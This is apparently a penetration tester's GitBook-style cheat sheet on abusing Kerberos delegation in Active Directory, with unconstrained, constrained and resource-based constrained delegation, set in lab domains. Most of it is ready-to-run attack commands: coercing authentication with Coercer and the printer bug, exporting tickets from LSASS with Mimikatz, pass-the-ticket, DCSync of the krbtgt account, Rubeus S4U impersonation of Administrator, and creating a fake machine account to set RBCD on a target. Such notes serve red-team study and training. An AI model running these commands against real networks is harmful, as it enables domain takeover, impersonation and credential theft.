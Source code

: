 # Kerberos Delegation

**Kerberos delegation:** allows services to impersonate the user in order to communicate with another service and perform actions on behalf the user.

***

{% hint style="warning" %}
Unconstrained Delegation: `TrustedForDelegation` = True

Constrained Delegation: `TrustedToAuthForDelegation` = True
{% endhint %}

***

## Unconstrained Delegation

Unconstrained Delegation allowing any service to use a user TGT in order to communicate with the **any** other service.

The TGT will be stored in the LSASS process.

### Enumerate

```powershell
# powerView
Get-NetComputer -Unconstrained
Get-DomainComputer -UnConstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-DomainComputer -unconstrained | select samaccountname

# AD Module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
Get-ADComputer "IIS" -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount

```

### **Exploitation**

#### Kali

and also you can use [Coercer](https://github.com/p0dalirius/Coercer) to forced Authentication with the server or DC has Unconstrained Delegation using any domain user

```bash
Coercer.py coerce \
  -u <user> -d <domain> -p <password> \
  -t <targetServer_OR_User> -l <listener/UD> --always-continue

#  Ex
Coercer.py coerce -u arya.stark -d north.sevenkingdoms.local -p 'Needle' -t kingslanding.sevenkingdoms.local -l winterfell --always-continue
```

#### Windows

It is possible to extract the TGTs from the service's LSASS process using `Mimikatz` and perform pass the ticket.

```powershell
# Extract the TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Pass the ticket
Invoke-Mimikatz -Command '"kerberos::ptt TGT.kirbi"' 
Rubeus.exe ptt /ticket:"base64 | file.kirbi" # Rubues allows base64 format as alternative
```

### **Printer bug**

The printer bug uses an RPC call of MS-RPRN (`print spooler service`) which allows any domain user can force any machine that running the Spooler service to connect to second a machine of the domain user's choice.

![image.png](<../../../.gitbook/assets/image (3).png>)

**1. Run on compromised Server Rubeus monitor**

```powershell
# run it on server has Unconstrained Delegation # to open Listener
Rubeus.exe monitor /interval:5 /nowrap

# spectator on ticket in memoty
```

<figure><img src="../../../.gitbook/assets/image 1 (1).png" alt=""><figcaption></figcaption></figure>

2. Run on compromised Domain User the RPC Call using [SpoolSample](https://github.com/leechristensen/SpoolSample) \ [Coercer](https://github.com/p0dalirius/Coercer)

```powershell
MS-RPRN.exe \\dc.machine.local \\compromised.machine.local
```

3. pass-the-ticket

```powershell
#Copy the base64 encoded TGT
Rubeus.exe ptt /ticket:<ticket.kirbi>
```

4. DCSync

```powershell
mimikatz.exe
lsadump::dcsync /domain:domain.local /user:krbtgt
```

***

## Constrained Delegation

Constrained Delegation allowing **specified** services on **specified** computers to use a user TGT in order to communicate with the **any** other service.

in order to create a more restrictive delegation mechanism, Microsoft develop two Kerberos extensions known as Service for user (S4U):

* Service for User to Self (S4U2self) - allows a service to obtain forwardable TGS to itself on behalf of user. (server can impersonate user in the same range)
* Service for User to Proxy (S4U2proxy) - allows a service to obtain a TGS to another service on behalf of user. but services are from white list controlled by `msDS-AllowedToDelegateTo` attribute.

### **Enumerate**

```powershell
# powerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

# AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

### **Exploitation**

```powershell
Rubeus.exe s4u /user:websvc /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

# You can change the target service in the ticket
Rubeus.exe s4u /user:USer-Delegate-Service /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```

***

## Resource Based Delegation

Instead of the white list of SPNs controlled by `msDS-AllowedToDelegateTo` attribute, resource based controlled by the `msDS-AllowedToActOnBehalfOfOtherIdentity`

To abuse RBCD(Resource Based Constrained Delegation \*\*\*\*) we need Write permissions over the target machine `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

انا كماشين 1 و عايز اعمل اكسيس علي ماشين 2 فلازم انا ابقي تبع الوايت ليست اللي حطاها الماشين اللي بتستقبل الاتصال اللي هي ماشين 2 علي عكس الكونستريند دليكشين المرسل هو اللي بيحط وايت ليس للي هيستقبل

### **Enumerate**

```powershell
# Check if allowed to create machines
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select ms-ds-machineaccountquota

# Check Write premissions to modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute on target machine
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

# Check if RBCD is set using PowerView - This can be used to verify also
Get-DomainRBCD  
```

{% hint style="danger" %}
if **`ms-ds-machineaccountquota ≠0`** we can execute **`NoPac Attack`** which allowed to Escalate user privilege to domain Admin privilege using one command
{% endhint %}

### **Exploitation**

**Create fake machine**

```powershell
# Using Powermad
import-module powermad
New-MachineAccount -MachineAccount dcorp-student483 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

**Change security descriptor**

<figure><img src="../../../.gitbook/assets/imagggge.png" alt=""><figcaption></figcaption></figure>

```powershell
$TargetComputer = 'dcorp-mgmt'
$FakeComputer = 'dcorp-student483'

# Using PowerView
$ComputerSid = Get-DomainComputer $FakeComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# One liner using PowerView
Set-DomainRBCD -Identity $TargetComputer -DelegateFrom $FakeComputer -Verbose   
# Using AD Module
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $FakeComputer 

# Verify
Get-DomainComputer dcorp-mgmt -Properties 'msds-allowedtoactonbehalfofotheridentity'
# Verify Result
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

# Verify using ADModule
Get-ADComputer dcorp-mgmt -Properties PrincipalsAllowedToDelegateToAccount
```

**Abuse using Rubeus**

```powershell
## Get the fake machine hash
Rubeus.exe hash /password:123456 /user:dcorp-student483 /domain:dollarcorp.moneycorp.local
## If used AD Module need to extract the hash from lsass using mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# Imporsnate wch ask for S4U2Self + S4U2Proxy TGS
Rubeus.exe s4u /user:dcorp-student483$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:http/dcorp-mgmt /ptt

# Verify (winrs on this case)
winrs -r:dcorp-mgmt cmd
```

\
